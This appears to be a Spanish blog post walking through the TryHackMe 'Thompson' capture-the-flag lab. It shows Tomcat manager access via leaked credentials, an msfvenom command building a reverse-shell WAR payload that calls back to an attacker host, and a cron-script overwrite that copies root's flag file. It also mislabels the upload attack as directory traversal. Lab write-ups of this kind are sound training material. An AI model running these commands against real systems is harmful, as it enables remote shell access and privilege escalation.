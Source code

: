 ```yaml
---
layout: post
title: Thompson
date: 2025-01-03 21:00:00
description: CTF sencillo con escalamiento a nivel root
tags: ctf pentesting msfvenom web_application_archive .war apache tomcat directory_transversal
categories: Seguridad Informática
thumbnail: assets/img/thompson.png
featured: true
---
```


# **Datos Generales**
- **URL**: https://tryhackme.com/r/room/bsidesgtthompson
- **Dificultad**: Fácil
- **Flags**: Usuario y Root
- **Aprendizaje**: Explotación con metasploit, crontab  


# **Conocimientos iniciales**
### Apache Tomcat y archivos .war
Las versiones anteriores a 6.024/5.5.29 de tomcat son vulnerables a directory transversal, lo que permite ejecutar un payload desde metasploit, entre otras técnicas de explotación. 

Información ampliada en el siguiente enlace: <a href=" https://www.tenable.com/plugins/nessus/44314" target="_blank">Apache Tomcat WAR Multiple Vulnerabilities</a>

### crontab
Crontab ejecuta tareas automatizadas en segundo plano, desde una lista alojada en **etc/crontab** o en otra ubicación determinada por el administrador.

Información ampliada en el siguiente enlace: <a href="https://www.hackingarticles.in/crontab-command/" target="_blank">Crontab</a>

# **El CTF** 
### Reconocimiento
Al iniciar el proceso de **reconocimiento** es común realizar la enumeración de puertos, el scaneo de directorios y de subdominios, entre otras pruebas según presente la aplicación web obejtivo.
En el caso de este ctf se obtuvo resultados de ínteres mediante el scaneo de puertos. La herramienta utilizada para ello fue  nmap. El resultado muestra que el puerto 8080 se encuentra habilitado para desplegar el servicio **Apache Tomcat**  

Ingresando por el puerto 8080 se observa que se despliega un menu de inicio de sesión, el cual al oprimir en **cancel** despliega una pagina de **error** con información importante.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-01.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-02.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
<div class="caption">
    Inicio de sesión
</div>

## Primera Flag

Realizando el login con las credenciales obtenidas en la página de error accedemos al siguiente panel

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-03.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

La página permite "subir" e implementar archivos .war en el servidor

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-04.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Como se expuso al inicio de este tutorial, es posible realizar un ataque de tipo directory transversal mediante el uso de archivos war. Para ello necesitaremos **msfvenom** para generar el payload. Como podemos ver a continuación

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```

Se puede obtener el payload desde: ```https://book.hacktricks.wiki/es/generic-hacking/reverse-shells/msfvenom.html?highlight=war#war```

Generamos el payload y ponemos un servidor en escucha en el puerto 4444

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-07.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Una vez subido el archivo reverse_shell.war ejecutamos el payload desde el panel de administración

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-08.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Observamos que fue posible la conexión a través del payload. A continuación realizamos la búsqueda de la flag en los archivos del servidor.

<div class="row mt-3 justify-content-center">
    <div class="col-10 col-sm-8 col-md-6 mt-3 mt-md-0">
        <div class="img-container">
            {% include figure.liquid path="assets/img/ctf-thompson-09.png" class="img-fluid rounded z-depth-1" zoomable=true %}
        </div>
    </div>
</div>

## Escalamiento de privilegios
### Flag de root

Notamos que el archivo **id.sh** se encuentra enlazado al archivo **test.txt**, es posible que se ejecute mediante crontab

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-10.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-11.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Utilizamos el comando **echo** para copiar 
```
echo 'cp /root/root.txt /home/jack/root.txt' > id.sh
```

Al ejecutarse este comando, se copiará el archivo root.txt ubicado en el directorio /root/ al directorio /home/jack/.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-13.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-14.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Esperamos un momento a que se ejecute la tarea en crontab, y accedemos root.txt obteniendo la segunda flag

<div class="row mt-3 justify-content-center">
    <div class="col-10 col-sm-8 col-md-6 mt-3 mt-md-0">
        <div class="img-container">
            {% include figure.liquid path="assets/img/ctf-thompson-12.png" class="img-fluid rounded z-depth-1" zoomable=true %}
        </div>
    </div>
</div>
